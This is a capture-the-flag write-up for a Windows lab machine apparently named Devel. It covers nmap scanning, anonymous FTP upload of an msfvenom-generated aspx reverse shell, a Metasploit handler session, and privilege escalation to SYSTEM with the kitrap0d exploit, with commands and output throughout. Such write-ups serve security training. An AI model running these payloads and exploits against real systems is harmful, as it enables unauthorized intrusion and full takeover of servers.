 # Devel Write-ups

\# BlueBrain

## Enumeration

### Nmap

```
# nmap -sC -sV -oA nmap 10.10.10.5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-03 03:54 EDT
Nmap scan report for 10.10.10.5
Host is up (0.21s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.00 seconds
```

Nmap reveals a Microsoft FTP server as well as a Microsoft IIS server. Running Dirbuster, with the lowercase medium wordlist, against the IIS server returns no results. The most likely initial attack vector appears to be FTP in this case.

## Exploitation

Without any detailed version information on the Microsoft FTP server, it will need to be approached differently. In this case, the most likely entry method appears to be a misconfiguration or weak login credentials.

Attempting to connect anonymously via FTP reveals that the server does allow anonymous login with read/write privileges in the IIS server directory.

```
# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49225|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp>
```

Armed with the ability to upload files, it is possible to drop an `aspx` reverse shell on the target and execute it by browsing to the file via the web server. The following command will create the aspx file: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LAB IP> LPORT=<PORT> -f aspx -o devel.aspx`

After starting a listener in Metasploit, the file can be uploaded with the `put` command via FTP. For example, put `./devel.aspx`. Loading this file by browsing to http://10.10.10.5/devel.aspx will trigger the reverse shell.

```
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.3:4444 
[*] Sending stage (176198 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.16.3:4444 -> 10.10.10.5:49227) at 2024-06-03 04:13:07 -0400

meterpreter > getuid
Server username: IIS APPPOOL\Web
meterpreter >
```

By default, the working directory is set to `c:\windows\system32\inetsrv`, which the IIS user does not have write permissions for. Navigating to `c:\windows\TEMP` is a good idea, as a large portion of Metasploit’s Windows privilege escalation modules require a file to be written to the target during exploitation.

## Privilege Escalation

Running `sysinfo` in the Meterpreter session reveals that the target is x86 architecture, so it is possible to get fairly reliable suggestions with the local_exploit_suggester module. The same can not be said for running the module on x64. Running the suggester gives the following recommended escalation modules:

- exploit/windows/local/bypassuac_eventvwr
- exploit/windows/local/ms10_015_kitrap0d
- … and 9 more ...

Going down the list, `bypassauc_eventvwr` fails due to the IIS user not being a part of the administrators group, which is the default and to be expected. The second option, `ms10_015_kitrap0d`, does the trick. The flags can now be obtained from `c:\Users\babis\Desktop\user.txt` and `c:\Users\Administrator\Desktop\root.txt`

```
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/ms10_015_kitrap0d 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms10_015_kitrap0d) > set LHOST 10.10.16.3
LHOST => 10.10.16.3
msf6 exploit(windows/local/ms10_015_kitrap0d) > set LPORT 4449
LPORT => 4449
msf6 exploit(windows/local/ms10_015_kitrap0d) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.16.3:4449 
[*] Reflectively injecting payload and triggering the bug...
[*] Launching msiexec to host the DLL...
[+] Process 2304 launched.
[*] Reflectively injecting the DLL into 2304...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176198 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.16.3:4449 -> 10.10.10.5:49228) at 2024-06-03 04:25:22 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```